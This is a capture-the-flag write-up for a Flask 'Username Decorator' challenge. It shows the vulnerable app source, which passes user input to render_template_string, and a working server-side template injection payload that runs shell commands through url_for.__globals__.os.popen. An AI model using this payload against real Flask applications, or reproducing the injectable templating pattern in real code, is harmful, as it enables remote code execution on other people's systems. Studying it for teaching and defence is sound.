

# Username Decorator
> My favorite social media platform, Prorope, has overhauled their username system and now supports prefixes and suffixes! Isn't that so cool?

> For one, I know that I would really love to be the !! JW !!, so I made a website to preview these username changes.

> Note: the flag is in an environment variable called FLAG

## About the Challenge
We have been given a source code that contain 2 python code, here is the content of `app.py` file

```python
from flask import Flask, render_template_string, request
import re

app = Flask(__name__)
app.config['FLAG_LOCATION'] = 'os.getenv("FLAG")'

def validate_username(username):
  return bool(re.fullmatch("[a-zA-Z0-9._\[\]\(\)\-=,]{2,}", username))

@app.route('/', methods=['GET', 'POST'])
def index():
    prefix = ''
    username = ''
    suffix = ''
    
    if request.method == 'POST':
      prefix = (request.form['prefix'] or '')[:2]
      username = request.form['username'] or ''
      suffix = (request.form['suffix'] or '')[:2]
      if not validate_username(username): username = 'Invalid Username'
	
    template = '<!DOCTYPE html><html><body>\
    <form action="" method="post">\
      Prefix: <input name="prefix"> <br>\
      Username: <input name="username"> <br>\
      Suffix: <input name="suffix"> <br> \
      <input type="submit" value="Preview!">\
    </form><h2>%s %s %s</h2></body></html>' % (prefix, username, suffix)
    return render_template_string(template)

@app.route('/flag')
def get_flag():
  return 'Nein'
  import os
  return eval(app.config['FLAG_LOCATION'])
```

And here is the preview of the website


## How to Solve?
The website is vulnerable to SSTI (Server Side Template Injection). To exploit the website we need to input `{{` in the `Prefix` form and `}}` in the `Suffix` form. For example im gonna check using `{{config}}` to see if the website is vulnerable to SSTI or not



So, to escalate the impact of SSTI, im using this payload to do Remote Code Execution

```
url_for.__globals__.os.__dict__.popen(request.args.file).read()
```

And then add new parameter called `file` in the request that contain unix command


```
ctf{j4st_us3_pr0p3r_t3mp14t1ng_4lr34dy}
```